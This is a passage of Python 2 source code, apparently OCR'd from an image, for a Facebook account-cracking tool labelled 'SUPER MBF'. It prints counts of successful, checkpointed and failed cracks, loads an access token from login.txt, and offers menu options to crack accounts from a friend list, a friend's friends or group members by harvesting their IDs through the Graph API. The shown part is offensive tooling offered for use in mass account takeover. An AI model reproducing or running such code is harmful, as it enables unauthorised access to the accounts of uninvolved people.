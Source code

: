 def hasil():
	print
	print 42*"\033[1;97m═"
	###Berhasil
	for b in berhasil:
		print(b)
	###CEK
	for c in cekpoint:
		print(c)
	###Gagal
	print 42*"\033[1;97m═"
	print ("\033[31m[x] Failed \033[1;97m--> " + str(len(gagal)))
	keluar()
	
############### SUPER MBF ################
def super():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('reset')
	print logo
	print "\033[1;95m║--\033[1;91m> \033[1;96m1.\033[1;93m Crack with list friend"
	print "\033[1;95m║--\033[1;91m> \033[1;96m2.\033[1;93m Crack from friend"
	print "\033[1;95m║--\033[1;91m> \033[1;96m3.\033[1;93m Crack from member group"
	print "\033[1;95m║--\033[1;91m> \033[1;96m0.\033[1;93m Back"
	print "║"
	pilih_super()

def pilih_super():
	peak = raw_input("\033[1;97m╚═\033[1;91mD \033[1;97m")
	if peak =="":
		print "\033[1;91m[!] Wrong input"
		pilih_super()
	elif peak =="1":
		os.system('reset')
		print logo
		jalan('\033[1;94m[✺] \033[1;96mGet all friend id \033[1;95m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('reset')
		print logo
		idt = raw_input("\033[1;91m[+] \033[1;92mInput ID friend \033[1;91m: \033[1;97m")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mFrom\033[1;91m :\033[1;97m "+op["name"]
		except KeyError:
			print"\033[1;91m[!] Friend not found"
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			super()
		jalan('\033[1;91m[✺] \033[1;92mGet all id from friend \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])